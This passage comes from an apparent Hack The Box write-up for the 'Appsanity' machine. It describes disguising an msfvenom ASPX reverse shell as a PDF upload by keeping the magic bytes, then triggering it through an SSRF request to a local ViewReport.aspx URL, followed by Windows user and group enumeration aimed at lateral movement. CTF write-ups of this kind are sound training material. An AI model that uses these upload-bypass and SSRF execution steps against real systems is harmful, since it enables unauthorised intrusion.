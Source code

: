 ![appsanity6](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/fa010592-1853-4b3e-86bf-1b8d4f49c2c6)

Upload any pdf you chose and intercept the request, keep the pdf magic bytes and remove the rest. Copy the msfvenom shell and change the filename and set an aspx extension, forward the request and let the upload finish.

![appsanity7](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/3fabf175-e43d-4b60-ba0b-accc3924d0b6)

To execute the shell, navigate to the "issue prescriptions" site, in the prescription link try an ssrf attack. Enter the url `http://127.0.0.1:8080` to view the medical reports, in the output you can view the path of the uploaded reports. 
```markdown
.../ViewReport.aspx?file=f6673d08-592a-44a3-a863-da678b74e0b4_document.aspx
```
To execute the aspx shell, use the ssrf vulnerability pointing to the uploaded shell.
```markdown
http://127.0.0.1:8080/ViewReport.aspx?file=f6673d08-592a-44a3-a863-da678b74e0b4_document.aspx
```
A reverse shell is received.

![appsanity8](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/e63f7d1e-58cb-4d47-bcd0-45ae87945d3d)

Using this reverse shell we can get the user flag.

### PHASE 3: System
Enumerate the user.
```markdown
> whoami
appsanity\svc_exampanel
```
Enumerate the system.
```markdown
> systeminfo
Host Name:                 APPSANITY
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19045 N/A Build 19045
System Type:               x64-based PC
```
Enumerate the system local users.
```markdown
> net user
User accounts for \\APPSANITY

-------------------------------------------------------------------------------
Administrator            DefaultAccount           devdoc                   
Guest                    svc_exampanel            svc_meddigi              
svc_meddigiportal        WDAGUtilityAccount       
The command completed successfully.
```
Rremember there was a 5985 service open, check who is using it.
```markdown
> net localgroup "remote management users"

Alias name     remote management users
Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

Members
-------------------------------------------------------------------------------
devdoc

The command completed successfully.
```
It seems our next goal is to move laterally to user devdoc to gain winrm remote access.
After largely enumerating the file system, we find this dll: